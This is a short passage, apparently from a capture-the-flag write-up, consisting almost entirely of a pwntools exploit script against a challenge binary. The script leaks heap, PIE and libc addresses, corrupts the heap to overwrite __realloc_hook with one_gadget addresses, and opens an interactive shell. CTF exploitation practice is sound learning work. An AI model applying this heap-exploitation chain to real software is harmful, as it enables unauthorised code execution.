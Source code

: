 ```py
getleak()
io.recvuntil('You sang ')
heap = int(io.recvn(14), 0)
log.info('Heap leak {}'.format(hex(heap)))
target_address = pie + 0x202040
choose(return_size(target_address, heap + 0x10), 'A')
choose(0x110, p64(pie + 0x202050) + p64(0x7f7f7f7f7f7f7f7f))
getdrink(8, 0)
choose(0x210000, 'AAAA')
getleak()
io.recvuntil('You sang ')
libc.address = int(io.recvn(14), 0) + 0x210ff0
log.info('Libc leak {}'.format(hex(libc.address)))
getdrink(8, -1)
target2 = libc.sym.__realloc_hook - 0x8
choose(return_size(target2, pie + 0x202168), 'BBBBBBBB')
def attack(size, data):
    io.recvuntil('> ')
    io.sendline('1')
    io.recvuntil('> ')
    io.sendline(str(size))
choose(0x110, p64(libc.address + 0x4f3c2) + p64(libc.address + 0x10a45c ) + p64(libc.sym.realloc + 8) + 'AAAAAAA')
#pause()
attack(0x100, 'A')
io.interactive()
```

### third_blood ...
****

